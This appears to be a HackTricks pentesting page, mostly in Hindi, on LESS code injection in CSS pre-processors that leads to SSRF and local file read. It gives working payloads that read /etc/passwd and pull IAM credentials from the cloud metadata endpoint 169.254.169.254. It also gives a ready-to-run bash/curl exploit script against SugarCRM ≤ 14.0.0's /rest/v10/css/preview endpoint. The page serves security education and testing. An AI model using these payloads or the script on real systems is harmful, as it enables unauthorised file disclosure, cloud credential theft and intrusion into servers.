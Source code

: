 # SSRF कमजोर प्लेटफ़ॉर्म

{{#include ../../banners/hacktricks-training.md}}

देखें **[https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/](https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/)**

## LESS Code Injection leading to SSRF & Local File Read

LESS एक लोकप्रिय CSS pre-processor है जो variables, mixins, functions और शक्तिशाली `@import` directive जोड़ता है। कंपाइलेशन के दौरान LESS engine **`@import` में संदर्भित संसाधनों को प्राप्त करेगा** और जब `(inline)` विकल्प उपयोग किया जाता है तो उनकी सामग्री को resulting CSS में embed ("inline") कर देगा।

जब कोई application किसी string में **user-controlled input** को जोड़ता है जो बाद में LESS compiler द्वारा parse की जाती है, तो एक attacker **inject arbitrary LESS code** कर सकता है। `@import (inline)` का दुरुपयोग करके attacker सर्वर को निम्नलिखित प्राप्त करने के लिए मजबूर कर सकता है:

* Local files via the `file://` protocol (information disclosure / Local File Inclusion).
* आंतरिक नेटवर्क या cloud metadata services पर रिमोट resources (SSRF).

यह तकनीक वास्तविक उत्पादों में देखी जा चुकी है, जैसे **SugarCRM ≤ 14.0.0** (`/rest/v10/css/preview` endpoint).

### Exploitation

1. ऐसा parameter पहचानें जो सीधे stylesheet string में embed किया गया हो और जिसे LESS engine द्वारा process किया जाता है (उदा. SugarCRM में `?lm=`)।
2. वर्तमान statement को बंद करें और नए directives इंजेक्ट करें। सबसे आम primitives हैं:
* `;`  – पिछले declaration को समाप्त करता है।
* `}`  – पिछले block को बंद करता है (यदि आवश्यक हो)।
3. मनमाने resources पढ़ने के लिए `@import (inline) '<URL>';` का उपयोग करें।
4. वैकल्पिक रूप से import के बाद **marker** (`data:` URI) इंजेक्ट करें ताकि compiled CSS से प्राप्त सामग्री को निकालना आसान हो।

#### Local File Read
```
1; @import (inline) 'file:///etc/passwd';
@import (inline) 'data:text/plain,@@END@@'; //
```
`/etc/passwd` की सामग्री HTTP response में `@@END@@` marker से ठीक पहले दिखाई देगी।

#### SSRF – क्लाउड मेटाडेटा
```
1; @import (inline) "http://169.254.169.254/latest/meta-data/iam/security-credentials/";
@import (inline) 'data:text/plain,@@END@@'; //
```
#### स्वचालित PoC (SugarCRM उदाहरण)
```bash
#!/usr/bin/env bash
# Usage: ./exploit.sh http://target/sugarcrm/ /etc/passwd

TARGET="$1"        # Base URL of SugarCRM instance
RESOURCE="$2"      # file:// path or URL to fetch

INJ=$(python -c "import urllib.parse,sys;print(urllib.parse.quote_plus(\"1; @import (inline) '$RESOURCE'; @import (inline) 'data:text/plain,@@END@@';//\"))")

curl -sk "${TARGET}rest/v10/css/preview?baseUrl=1&lm=${INJ}" | \
sed -n 's/.*@@END@@\(.*\)/\1/p'
```
### वास्तविक दुनिया के मामलों

| उत्पाद | असुरक्षित एंडपॉइंट | प्रभाव |
|---------|--------------------|--------|
| SugarCRM ≤ 14.0.0 | `/rest/v10/css/preview?lm=` | बिना प्रमाणीकरण के SSRF और स्थानीय फ़ाइल पढ़ना |

### संदर्भ

* [SugarCRM ≤ 14.0.0 (css/preview) LESS Code Injection Vulnerability](https://karmainsecurity.com/KIS-2025-04)
* [SugarCRM Security Advisory SA-2024-059](https://support.sugarcrm.com/resources/security/sugarcrm-sa-2024-059/)
* [CVE-2024-58258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-58258)

{{#include ../../banners/hacktricks-training.md}}

